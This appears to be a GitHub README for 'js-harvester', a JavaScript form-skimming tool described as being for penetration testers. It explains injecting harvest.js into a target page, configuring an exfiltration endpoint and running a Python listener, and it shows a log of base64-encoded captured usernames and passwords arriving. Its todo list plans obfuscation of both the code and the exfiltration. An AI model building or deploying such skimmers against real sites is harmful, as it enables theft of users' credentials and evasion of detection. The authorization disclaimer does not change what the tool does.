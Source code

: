 # js-harvester
This is a tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access.
# installation
* Requires jQuery
* Ability to inject harvest.js to the target site
# usage
1. Identify target page to harvest data from (see example-forms for reference/test materials)
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
6. Update the settings in harvest.js
```
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```
* <b>siteId and formId:</b> The siteId and formId values were originally hardcoded. These values are now dynamically generated based on the form properties (host, page, form name)
* <b>bindAllFormsSwitch:</b> boolean value 'true' or 'false'. true will bind all forms on the page, false will bind the form name specified by 'formName'
* <b>formName:</b> required if not binding all forms on the page (see bindAllFormsSwitch)
* <b>enableEncoding:</b> enables base64 encoding of exfiltrated data, may expand to other encoding types/formats
* <b>usePost:</b> boolean value 'true' or 'false'. indicates whether a POST request should be used for data exfiltration, default is to use GET
* <b>_0x3745:</b> array of values used for data exfiltration, the first 4 need to be customized for the data exfiltration endpoint

5. Listen. . .
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.1.211 - - [14/Sep/2024 18:39:22] "GET /harvest?data=dXNlcm5hbWU6cGV0ZXImcGFzc3dvcmQ6d2VpbmVyJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:27] "GET /harvest?data=dXNlcm5hbWU6YWRtaW4mcGFzc3dvcmQ6YWRtaW4mc2l0ZUlkOk1Ua3lMakUyT0M0eExqSXpOdz09JmZvcm1JZDpMMnB6YUdGeWRtVnpkQzlzYjJkcGJpMW1iM0p0TG1oMGJXd3RiRzluYVc1bWIzSnQ= HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:33] "GET /harvest?data=dXNlcm5hbWU6Z2VvcmdlJnBhc3N3b3JkOmJ1cm5zJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                                       
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ 
```

# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* client feedback options
* enhance decoder tools
* change form processing to avoid using name or id properties
* collect client information (IP, user agent, referer, timezone etc.)
* customizable serialization separators
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
